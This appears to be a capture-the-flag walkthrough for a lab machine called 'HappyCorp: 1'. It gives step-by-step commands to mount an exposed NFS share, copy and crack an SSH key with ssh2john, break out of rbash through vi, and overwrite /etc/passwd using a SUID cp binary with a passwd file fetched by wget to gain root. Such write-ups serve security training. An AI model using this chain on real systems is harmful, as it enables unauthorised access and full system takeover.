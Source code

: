 
# HappyCorp: 1

1- Let's started with scanning the target machine that reveals an important port open:
2049 -> open -> NFS Share.
2- Enumerating the shared files : ```showmount -e 10.0.4.36 ```
3- Mounting the shared directory: ```mount -t nfs 10.0.4.36:/home/karl /tmp/share ```
4- Get in the karl directory 
5- Create a group identifiant 1001: ``` groupadd -g 1001 mygroup```
6- Affecte my user account to the group created: ``` useradd -G mygroup root``` => we can access to .ssh shared file
7- Upload his private ssh key -> use ssh2john to retrieve the passphrase.
8- Connect with private ssh to rbash shell
9- Abuse vi to get out from the restricted bash: ``` vi -> :!/bin/sh```
10- ``` find / -perm -u=s -type f 2>/dev/null```
11- /bin/cp: can be runned as root user.
12- ```wget http://10.0.4.36:8000/passwd  -> cp passwd /etc/passwd -> su tbag (root user)```
13- boooooooooooooooooooom
